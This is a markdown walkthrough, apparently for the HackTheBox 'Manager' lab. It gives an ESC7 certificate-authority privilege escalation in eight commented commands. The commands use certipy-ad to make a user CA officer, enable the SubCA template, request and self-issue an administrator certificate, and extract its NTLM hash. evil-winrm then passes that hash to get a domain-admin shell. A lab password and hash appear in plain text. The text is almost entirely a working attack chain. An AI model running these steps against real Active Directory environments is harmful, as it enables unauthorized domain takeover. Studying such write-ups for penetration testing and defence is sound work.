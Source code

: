# ESC7 Exploitation – Commands, Options, and Detailed Explanations

This document merges the contents of **ESC7_Exploitation_Steps.md** and **ESC7_Exploitation_Detailed.md**, providing both **option descriptions** and **purpose explanations** for each executed command.

---

## 1️⃣ Add Raven as CA Officer
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven
```
### 🔹 Options:
- `ca` → Interacts with the Certificate Authority.
- `-u raven@manager.htb` → User for authentication.
- `-p 'R4v3nBe5tD3veloP3r!123'` → Password for Raven.
- `-dc-ip 10.10.11.236` → Domain Controller IP.
- `-ca manager-dc01-ca` → Target CA name.
- `-add-officer raven` → Adds Raven as CA officer.

### 🔹 Why Used?
This command grants Raven officer privileges on the CA, enabling high-level control like approving certificate requests or modifying CA configuration, which is essential for exploiting ESC7.

---

## 2️⃣ Enable the SubCA Template
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
```
### 🔹 Options:
- `-enable-template subca` → Enables the SubCA template.

### 🔹 Why Used?
The SubCA template allows requesting subordinate CA certificates, which can issue certs for any account. Enabling it prepares the environment for privilege escalation via administrator impersonation.

---

## 3️⃣ List Enabled Templates
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -list-templates
```
### 🔹 Options:
- `-list-templates` → Displays enabled templates.

### 🔹 Why Used?
This confirms that the SubCA template is enabled and available for exploitation. Knowing available templates ensures selecting the most suitable one for privilege escalation.

---

## 4️⃣ Request Administrator Certificate Using SubCA
```
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
```
### 🔹 Options:
- `req` → Requests a certificate.
- `-template SubCA` → Uses the SubCA template.
- `-upn administrator@manager.htb` → Requests cert for Administrator UPN.

### 🔹 Why Used?
This command attempts to impersonate the Administrator by requesting a cert that authenticates as administrator@manager.htb, leveraging the SubCA template’s powerful capabilities.

---

## 5️⃣ Issue the Pending Request (ID 22)
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request 22
```
### 🔹 Options:
- `-issue-request 22` → Approves request ID 22.

### 🔹 Why Used?
After submitting the certificate request, it remains pending. This command self-approves and issues the cert, abusing Raven’s ManageCA privileges to bypass administrative approval.

---

## 6️⃣ Retrieve the Administrator Certificate
```
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve 22
```
### 🔹 Options:
- `-retrieve 22` → Retrieves issued cert with ID 22.

### 🔹 Why Used?
Downloads the issued administrator certificate as a PFX, which contains both the cert and its private key. This allows authentication without requiring a password or NT hash.

---

## 7️⃣ Authenticate as Administrator
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### 🔹 Options:
- `auth` → Module for authentication using certificates.
- `-pfx administrator.pfx` → Administrator’s PFX file.
- `-dc-ip 10.10.11.236` → Domain Controller IP.

### 🔹 Why Used?
Authenticates as Administrator using the PFX, extracting the NTLM hash and proving full control over the domain account.

---

## 8️⃣ Final Domain Admin Access via Evil-WinRM
```
evil-winrm -u administrator -H 'ae5064c2f62317332c88629e025924ef' -i 10.10.11.236
```
### 🔹 Options:
- `-u administrator` → Username.
- `-H` → Use NTLM hash for login.
- `-i 10.10.11.236` → Domain Controller IP.

### 🔹 Why Used?
Leverages the obtained NTLM hash to establish a remote PowerShell session as Administrator, achieving full domain compromise and retrieving the `root.txt` flag.
